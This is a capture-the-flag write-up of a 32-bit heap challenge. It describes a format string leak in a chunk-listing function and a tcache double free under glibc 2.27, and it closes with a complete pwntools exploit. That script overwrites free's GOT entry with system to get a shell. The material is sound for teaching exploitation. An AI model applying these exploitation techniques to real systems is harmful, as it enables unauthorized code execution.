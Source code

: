 We are given 3 files the binary, zip archive with libc and ld and bash script that runs the binary. 
First let's look at the binary in IDA:

<img src="image1.png" width=500 height=500>

Here is the code that simply reads a character and executes a command appropriate to it. But what of v4 variable used for ?
Lets look deep into the function allocate_chunk:

<img src="image2.png">

The function allocate_chunk first reads id,after that it checks if ID bit of v4 is 0 and if it is it reads size and content and sets the chunks[id] to malloc(size).
So v4 is used to check if chunk is freed or used. If the ID bit is set to 0 it is freed and if it's not it is allocated.
Now let's look at the list_chunks_content:

<img src="image3.png">

Function prints all the chunks content with printf passing the chunk address as the first argument and here we have a format string vulnerability. We don't have an arbitary write here because format string isn't on the stack, but address of v4 is. So we can overwrite v4 to get double free.
The glibc2.27 is used in this task, in this version tcache was added. When multiple threads are using heap the heap manager locks the heap while one thread is using it to avoid errors.So to make the allocations faster peaple made a tcache. A tcache or per thread cache is a bin that is own for each of threads unlike the other bins, so when u are using a tcache heap manager doesn't need to lock a heap and allocations go faster. But there is no security checks in tcache. Since glibc2.27 tcache is used by default, You can read more about tcache here https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/.

Our strategy is pretty simple:
1. we leak the libc using format string vulnerabilitiy.
2. we create two chunks in second chunk is payload to overwrite the v4 with 0b111 (7).
3. free first chunk
4. overwrite the v4
5. free first chunk again
6. overwrite the v4 again
7. free first chunk again
8. allocate chunk with content p32(freegot) to overwrite the bk pointer to freeaddress in got table
9. allocate chunk with content "/bin/sh\x00"
10. allocate chunk with content p32(system)
11. free chunk with /bin/sh

The final exploit:
```python
from pwn import *
cmd = lambda x : p.sendlineafter('4) quit\n>', str(x))
answer = lambda x : p.sendlineafter(': ', str(x))
def allocate_chunk(id, size, content):
	cmd(1)
	answer(id)
	answer(size)
	answer(content)
	p.send('\n')

def delete_chunk(id):
	cmd(3)
	answer(id)
def list_chunks():
	cmd(2)
	return p.recvuntil('\n\n').split('\n')[:-2]
freegot = 0x804b43c
p = process('./df', env={'MALLOC_CHECK_':'0', 'LD_PRELOAD' : "/opt/glibc2.27x86/lib/libc.so.6 /opt/glibc2.27x86/lib/libpthread.so.0 /opt/glibc2.27x86/lib/ld-linux.so.2"})
#p = process('./df')
#p = remote('tasks.open.kksctf.ru', 10000)
libc = ELF('/opt/glibc2.27x86/lib/libc.so.6')
gdb.attach(p)
allocate_chunk(0, 128, '%13$p')
libc_base = int(list_chunks()[0][2:],16)-0x1dba5
system = libc_base+libc.symbols['system']
print 'LIBC leak:', hex(libc_base)
print 'system:', hex(system)
delete_chunk(0)
allocate_chunk(0, 128, 'a'*8)
allocate_chunk(1, 128, '%7c%6$hhn')
delete_chunk(0)
list_chunks()
delete_chunk(0)
list_chunks()
delete_chunk(0)
allocate_chunk(3, 128, p32(freegot))
allocate_chunk(5, 128, '/bin/sh\x00')
allocate_chunk(0, 128, p32(system))
delete_chunk(5)
p.interactive()```

